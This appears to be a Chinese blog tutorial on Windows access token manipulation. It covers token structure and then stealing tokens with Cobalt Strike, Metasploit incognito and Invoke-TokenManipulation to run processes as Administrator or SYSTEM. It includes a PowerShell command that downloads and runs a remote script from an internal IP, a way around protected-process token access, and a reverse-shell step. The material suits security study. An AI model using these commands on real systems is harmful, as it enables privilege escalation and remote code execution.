










“只有在梦想中，人才能真正自由。”
－－《死亡诗社》
文如题目，Windows Access Token Manipulation Attack
什么是Windows Access Token
对于windows access token微软官方给出的解释是这样的：
1 | An access token is an object that describes the security context of a process or thread. |
大体意思就是Windows Access Token(访问令牌)，它是一个描述进程或者线程安全上下文的一个对象。不同的用户登录计算机后， 都会生成一个Access Token，这个Token在用户创建进程或者线程时会被使用，不断的拷贝，这也就解释了A用户创建一个进程而该进程没有B用户的权限。当用户注销后，系统将会使主令牌切换为模拟令牌，不会将令牌清 除，只有在重启机器后才会清除 Access Token分为两种(主令牌、模拟令牌)
- primary token 这种令牌通常用于本地及远程RDP登录
- impersonation token 这种则通常用于各种非交互式的登录,比如,netuse,wmi,winrm等等…
Windows Access Token组成
- 用户帐户的安全标识符(SID)
- 用户所属的组的SID
- 用于标识当前登录会话的登录SID
- 用户或用户组所拥有的权限列表
- 所有者SID
- 主要组的SID
- 访问控制列表
- 访问令牌的来源
- 令牌是主要令牌还是模拟令牌
- 限制SID的可选列表
- 目前的模拟等级
- 其他统计数据
SID
安全标识符(Security identifiers)，简称为SID，分别是OwnerSid和GroupSid. 所谓SID就是每次当我们创建一个用户或一个组的时候，系统会分配给改用户或组一个唯一SID，当你重新安装系统后，也会得到一个唯一的SID。SID是唯一的，不随用户的删除而分配到另外的用户使用。
请记住，SID永远都是唯一的SIF是由计算机名、当前时间、当前用户态线程的CPU耗费时间的总和三个参数决定以保证它的唯一性。
例： S-1-5-21-1763234323-3212657521-1234321321-500
Windows Access Token产生过程
1 | 用户使用凭据(用户密码)进行认证-->登录session创建-->windows返回用户的sid和用户所在组的sid-->LSA创建一个Access token-->使用凭据成功认证-->登录session-->token-->进程、线程 |

每个进程创建时都会根据登录会话权限由LSA(Local Security Authority)分配一个Token(如果CreaetProcess时自己指定了 Token, LSA会用该Token， 否则就用父进程Token的一份拷贝。
过程中会检验你是否为管理员组的用户，如果是会给你一个具有完整管理员权限的令牌和一个标准用户的令牌(包含提权权限)，如果是普通用户则只给一个普通令牌。
顺便提一句登录方式：
- 交互登录（凭据存放在lsass.exe内）：控制台登录2、rdp登录10、psexec登录2
- 网络登录（证书不在内存中）：wmi3、winrm3
- smart登录….
cobalt strike模拟令牌
主要是使用steal_token模拟令牌，rev2self撤回令牌。

metasploit模拟令牌
incognito模块，同样rev2self撤回令牌。

或者用它的独立程序去执行一个文件：
1 | incognito.exe execute "WEBSERVER-IIS7\Administrator" "powershell.exe -nop -whidden -c "IEX((new-objectnet.webclient).downloadstring('http://192.168.3.69:81/incognito'))\"" |
Invoke-TokenManipulation模拟令牌
Invoke-TokenManipulation是一个powershell脚本，可以用于枚举、模拟令牌。
枚举令牌并保存到文件
1 | Invoke-TokenManipulation-Enumerate|out-fileres.txt |
模拟令牌起进程：
1 | Invoke-TokenManipulation-CreateProcess"cmd.exe"-Username"WEBSERVER-IIS7\Administrator" |
模拟进程令牌起进程：
1 | Invoke-TokenManipulation-CreateProcess"cmd.exe"-ProcessId1892 |
令牌模拟的细节
在进行令牌模拟的时候，我们一般需要下面的api：

过程是：
1 | openprocess() --> openprocesstoken() --> impersonateloggedonuser()--> duplicatetokenex() --> createprocesswithtokenw() |
demo（ired的）：
1 |
|
运行该程序，我们就可以获得一个3060进程令牌权限运行的shell.cmd的进程。当然，你需要有这个进程的访问权限。
但是也并不是所有的进程都都是可以被操作的，比如看下面的这个图：

我们可以清楚的看到wmiprvse进程便无法被打开，主要是无法打开token。
那么为什么会出现这种问题呢？
先不急，我们先看一下所有的令牌，因为我们的目的就是获取system令牌。

然后简单修改下，变成只获取system权限的进程：
1 | get-token | where-object {$_.username -eq 'NT AUTHORITY\SYSTEM' -and $_.ownername -ne 'NT AUTHORITY\SYSTEM'} | select-object processname,processsid|format-table |
这样列出的进程和进程号，是只为system权限的进程。
然后经过测试发现像csrss、service、wininit、smss等token获取失败

查看发现存在同一个问题：存在protect
根据微软文档，我们可以知道

只需要在openprocess中将第一个参数改成PROCESS_QUERY_LIMITED_INFORMATION即可。
那么只需要在primarytokentheft里面加一个判断即可，修改后的代码如下：
1 |
|
此时，我们便可以获取任意进程的token：

将启动cmd更改为我们的反弹shell程序，即可获取的一个system的session：


参考文章：
https://attack.mitre.org/techniques/T1134/
https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw
https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights
https://www.secpulse.com/archives/94848.html
https://www.slideshare.net/JustinBui5/understanding-windows-access-token-manipulation